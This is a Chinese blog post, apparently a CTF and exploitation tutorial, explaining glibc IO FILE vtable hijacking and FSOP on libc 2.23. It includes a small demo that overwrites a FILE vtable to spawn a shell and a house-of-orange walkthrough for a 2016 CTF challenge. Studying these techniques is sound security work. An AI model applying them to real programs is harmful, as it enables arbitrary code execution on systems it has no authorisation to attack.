

**欢迎关注公众号[平凡路上](https://mp.weixin.qq.com/s/TR-JuE2nl3W7ZmufAfpBZA)，平凡路上是一个致力于二进制漏洞分析与利用经验交流的公众号。**


之前的文章对IO FILE相关功能函数的源码进行了分析，后续将对IO FILE相关的利用进行阐述。

传送门：

* [IO FILE之fopen详解](https://ray-cp.github.io/archivers/IO_FILE_fopen_analysis)
* [IO FILE之fread详解](https://ray-cp.github.io/archivers/IO_FILE_fread_analysis)
* [IO FILE之fwrite详解](https://ray-cp.github.io/archivers/IO_FILE_fwrite_analysis)
* [IO_FILE之fclose详解](https://ray-cp.github.io/archivers/IO_FILE_fclose_analysis)

经过了前面对于fopen等源码的介绍，知道了IO FILE结构体里面有个很重要的数据结构--`vtable`，IO函数的很多功能都是通过它去实现的。接下来主要描述如何通过劫持vtable去实现控制函数执行流以及通过FSOP来进行利用。

## vtable劫持

**本文是基于libc 2.23及之前的libc上可实施的，**libc2.24之后加入了vtable check机制，无法再构造vtable。

vtable是`_IO_FILE_plus`结构体里的一个字段，是一个函数表指针，里面存储着许多和IO相关的函数。

### 劫持原理
`_IO_FILE_plus`结构体的定义为：

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```
`vtable`对应的结构体`_IO_jump_t`的定义为：

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```
这个函数表中有19个函数，分别完成IO相关的功能，由IO函数调用，如`fwrite`最终会调用`__write`函数、`fread`会调用`__doallocate`来分配IO缓冲区等。

给出`stdin`的IO FILE结构体和它的虚表的值，更直观的看下，首先是`stdin`的结构体：


可以看到此时的函数表的值是 `0x7fe23cc576e0 <__GI__IO_file_jumps>`，查看它的函数：


vtable劫持的原理是：如果能够控制FILE结构体，实现对vtable指针的修改，使得vtable指向可控的内存，在该内存中构造好vtable，再通过调用相应IO函数，触发vtable函数的调用，即可劫持程序执行流。

从原理中可以看到，劫持最关键的点在于修改IO FILE结构体的vtable指针，指向可控内存。一般来说有两种方式：一种是只修改内存中已有FILE结构体的vtable字段；另一种则是伪造整个FILE结构体。当然，两种的本质最终都是修改了vtable字段。

demo示例程序可以参考[ctf wiki](https://wiki.gdpcisa.org/pwn/io_file/fake-vtable-exploit/)中的示例：
```c
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

这个示例通过修改已有FILE结构体的内存的vtable，使其指向用户可控内存，实现劫持程序执行`system("sh")`的过程。

有了前面几篇文章对vtable调用的基础，劫持的原理理解就比较容易了，不再赘述。


### IO调用的vtable函数

在这里给出`fopen`、`fread`、`fwrite`、`fclose`四个函数会调用的vtable函数，之前在每篇文章的末尾都已给出，在这里统一总结下，方便后面利用的时候能够较快的找到所需劫持的函数指针。

fopen函数是在分配空间，建立FILE结构体，未调用vtable中的函数。

fread函数中调用的vtable函数有：

* `_IO_sgetn`函数调用了vtable的`_IO_file_xsgetn`。
* `_IO_doallocbuf`函数调用了vtable的`_IO_file_doallocate`以初始化输入缓冲区。
* vtable中的`_IO_file_doallocate`调用了vtable中的`__GI__IO_file_stat`以获取文件信息。
* `__underflow`函数调用了vtable中的`_IO_new_file_underflow`实现文件数据读取。
* vtable中的`_IO_new_file_underflow`调用了vtable`__GI__IO_file_read`最终去执行系统调用read。

fwrite 函数调用的vtable函数有：

* `_IO_fwrite`函数调用了vtable的`_IO_new_file_xsputn`。
* `_IO_new_file_xsputn`函数调用了vtable中的`_IO_new_file_overflow`实现缓冲区的建立以及刷新缓冲区。
* vtable中的`_IO_new_file_overflow`函数调用了vtable的`_IO_file_doallocate`以初始化输入缓冲区。
* vtable中的`_IO_file_doallocate`调用了vtable中的`__GI__IO_file_stat`以获取文件信息。
* `new_do_write`中的`_IO_SYSWRITE`调用了vtable`_IO_new_file_write`最终去执行系统调用write。

`fclose`函数调用的vtable函数有：

* 在清空缓冲区的`_IO_do_write`函数中会调用vtable中的函数。
* 关闭文件描述符`_IO_SYSCLOSE`函数为vtable中的`__close`函数。
* `_IO_FINISH`函数为vtable中的`__finish`函数。

其他的IO函数功能相类似的调用的应该都差不多，可以参考下。


##  FSOP

FSOP全称是`File Stream Oriented Programming`，关键点在于前面`fopen`函数中描述过的`_IO_list_all`指针。

进程中打开的所有文件结构体使用一个单链表来进行管理，即通过`_IO_list_all`进行管理，在[`fopen`](https://ray-cp.github.io/archivers/IO_FILE_fopen_analysis)的分析中，我们知道了fopen是通过`_IO_link_in`函数将新打开的结构体链接进入`_IO_list_all`的，相关的代码如下：
```c
fp->file._flags |= _IO_LINKED;
...
fp->file._chain = (_IO_FILE *) _IO_list_all;
_IO_list_all = fp;
```
从代码中也可以看出来链表是通过FILE结构体的`_chain`字段来进行链接的。

正常的进行中存在stderr、sdout以及stdin三个IO FILE，此时`_IO_list_all`如下：



形成的链表如下图所示：


看到链表的操作，应该就大致猜到了FSOP的主要原理了。即通过伪造`_IO_list_all`中的节点来实现对FILE链表的控制以实现利用目的。通常来说一般是直接利用任意写的漏洞修改`_IO_list_all`直接指向可控的地址。

具体来说该如何利用呢？glibc中有一个函数`_IO_flush_all_lockp`，该函数的功能是刷新所有FILE结构体的输出缓冲区，相关源码如下，文件在`libio\genops`中：
```c
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;

  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
    ...
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
     || (_IO_vtable_offset (fp) == 0
         && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
            > fp->_wide_data->_IO_write_base))
#endif
     )
    && _IO_OVERFLOW (fp, EOF) == EOF)   //，如果输出缓冲区有数据，刷新输出缓冲区
  result = EOF;

      
  fp = fp->_chain; //遍历链表
    }
...
}
```
通过对`fwrite`分析，我们知道输出缓冲区的数据保存在`fp->_IO_write_base`处，且长度为`fp->_IO_write_ptr-fp->_IO_write_base`，因此上面的`if`语句实质上是判断该FILE结构输出缓冲区是否还有数据，如果有的话则调用`_IO_OVERFLOW`去刷新缓冲区。其中`_IO_OVERFLOW`是vtable中的函数，因此如果我们可以控制`_IO_list_all`链表中的一个节点的话，就有可能控制程序执行流。

可以看出来该函数的意义是为了保证数据不丢失，因此在程序执行退出相关代码时，会去调用函数去刷新缓冲区，确保数据被保存。根据`_IO_flush_all_lockp`的功能，猜测这个函数应该是在程序退出的时候进行调用的，因为它刷新所有FILE的缓冲区。事实上，会`_IO_flush_all_lockp`调用函数的时机包括：

* libc执行abort函数时。
* 程序执行exit函数时。
* 程序从main函数返回时。

再多做一点操作，去看下上述三种情况的堆栈，来进一步了解程序的流程。将断点下在`_IO_flush_all_lockp`，查看栈结构。

首先是abort函数的流程，利用的double free漏洞触发，栈回溯为：
```c
_IO_flush_all_lockp (do_lock=do_lock@entry=0x0)
__GI_abort ()
__libc_message (do_abort=do_abort@entry=0x2, fmt=fmt@entry=0x7ffff7ba0d58 "*** Error in `%s': %s: 0x%s ***\n")
malloc_printerr (action=0x3, str=0x7ffff7ba0e90 "double free or corruption (top)", ptr=<optimized out>, ar_ptr=<optimized out>)
_int_free (av=0x7ffff7dd4b20 <main_arena>, p=<optimized out>,have_lock=0x0)
main ()
__libc_start_main (main=0x400566 <main>, argc=0x1, argv=0x7fffffffe578, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe568)
_start ()

```
exit函数，栈回溯为：
```c
_IO_flush_all_lockp (do_lock=do_lock@entry=0x0)
_IO_cleanup ()
__run_exit_handlers (status=0x0, listp=<optimized out>, run_list_atexit=run_list_atexit@entry=0x1)
__GI_exit (status=<optimized out>)
main ()
__libc_start_main (main=0x400566 <main>, argc=0x1, argv=0x7fffffffe578, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe568)
_start ()
```
程序正常退出，栈回溯为：
```c
_IO_flush_all_lockp (do_lock=do_lock@entry=0x0)
_IO_cleanup ()
__run_exit_handlers (status=0x0, listp=<optimized out>, run_list_atexit=run_list_atexit@entry=0x1)
__GI_exit (status=<optimized out>)
__libc_start_main (main=0x400526 <main>, argc=0x1, argv=0x7fffffffe578, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe568)
_start ()
```
看出来程序正常从main函数返回后，也是调用了`exit`函数，所以最终才调用`_IO_flush_all_lockp`函数的。

再说如何利用，利用的方式为：伪造IO FILE结构体，并利用漏洞将`_IO_list_all`指向伪造的结构体，或是将该链表中的一个节点（`_chain`字段）指向伪造的数据，最终触发`_IO_flush_all_lockp`，绕过检查，调用`_IO_OVERFLOW`时实现执行流劫持。

其中绕过检查的条件是输出缓冲区中存在数据：
```c
 if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
     || (_IO_vtable_offset (fp) == 0
         && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
            > fp->_wide_data->_IO_write_base))
```

#### 一个FSOP的流程图


### 示例--house of orange

FSOP的利用示例，最经典的莫过于`house of orange`攻击方法。下面将通过`house of orange`攻击方法具体体现vtable劫持和fsop，示例题是东华杯2016-pwn450的note。

先说明一下，程序中使用的`unsorted bin attack`改写`_IO_list_all`，使用`sysmalloc`得到`unsorted bin`的原理我将不再详细描述，有需要的可以参考[unsorted bin attack分析](https://www.anquanke.com/post/id/85127)，这里主要集中在vtable的劫持以及FSOP的实现上。

题目是一道菜单题，可以创建、编辑、以及删除堆块，其中只允许同时对一个堆块进行操作，只有释放了当前堆块才可以申请下一个堆块。

在创建函数中，堆块被`malloc`出来后会打印堆的地址，可以使用该函数来泄露堆地址；漏洞在编辑函数中，编辑函数可以输入任意长的字符，因此可以造成堆溢出。

首先要解决如何实现地址泄露，正常来说通过创建函数可以得到堆地址，但是如何得到libc的地址？答案是可以通过申请大的堆块，申请堆块很大时，mmap出来的内存堆块会紧贴着libc，可通过偏移得到libc地址。从下图中可以看到，当申请堆块大小为0x200000时，申请出来的堆块紧贴libc，可通过堆块地址得到libc基址。


如何得到unsorted bin？想要利用unsorted bin attack实现`_IO_list_all`的改写，那么就需要有unsorted bin才行，只有一个堆块，如何得到unsorted bin？答案是利用top chunk不足时堆的分配的机制，当top chunk不足以分配，系统会分配新的top chunk并将之前的chunk 使用free函数释放，此时会将堆块释放至unsorted bin中。我们可以利用覆盖，伪造top chunk的size，释放的堆块需满足下述条件：
```c
assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
```
即：
1. size需要大于0x20（MINSIZE）
2. prev_inuse位要为1
3. top chunk address + top chunk size 必须是页对齐的（页大小一般为0x1000）

最终利用unsorted bin attack，将`_IO_list_all`指向`main_arena`中`unsorted_bins`数组的位置。

此时的`_IO_list_all`由于指向的时`main arena`中的地址，并不是完全可控的。


但是它的chain字段却是可控的，因为我们可以通过伪造一个大小为0x60的small bin释放到main arena中，从而在unsorted bin attack后，该字段刚好被当作`_chain`字段，如下图所示：


当调用`_IO_flush_all_lockp`时，`_IO_list_all`的头节点并不会使得我们可以控制执行流，但是当通过`fp = fp->_chain`链表，对第二个节点进行刷新缓冲区的时候，第二个节点的数据就是完全可控的。我们就可以伪造该结构体，构造好数据以及vtable，在调用vtable中的`_IO_OVERFLOW`函数时实现对执行流的劫持。

写exp时，可以利用`pwn_debug`中`IO_FILE_plus`模块中的`orange_check`函数来检查当前伪造的数据是否满足house of orange的攻击，以及使用`show`函数来显示当前伪造的FILE结构体。

伪造的IO FILE结构如下：


可以看到`_mode`为0，`_IO_write_ptr`也大于`fp->_IO_write_base`因此会触发它的`_IO_OVERFLOW`函数，它的vtable被全都伪造成了`system`的地址，如下图所示：


最终执行`system("bin/sh")`拿到shell。


## 小结

vtable劫持和FSOP还是比较好理解的，下一篇将介绍vtable check机制和它的绕过方法。

[`pwn_debug`](https://github.com/ray-cp/pwn_debug)新增了一个模块`IO_FILE_plus`，该模块可以很方便的查看和构造IO FILE结构体，以及检查结构体是否满足利用条件。本文中可以使用的api为`IO_FILE_plus.orange_check`，即检查当前构造的IO FILE是否满足house of orange的攻击条件。

exp和相关文件在我的[github](https://github.com/ray-cp/ctf-pwn/tree/master/PWN_CATEGORY/IO_FILE/vtable_hajack/东华杯2016-pwn450_note)

## 参考链接

1. [unsorted bin attack分析](https://www.anquanke.com/post/id/85127)
2. [伪造vtable劫持程序流程](https://wiki.gdpcisa.org/pwn/io_file/fake-vtable-exploit/)


文章首发于[先知](https://xz.aliyun.com/t/5508)社区


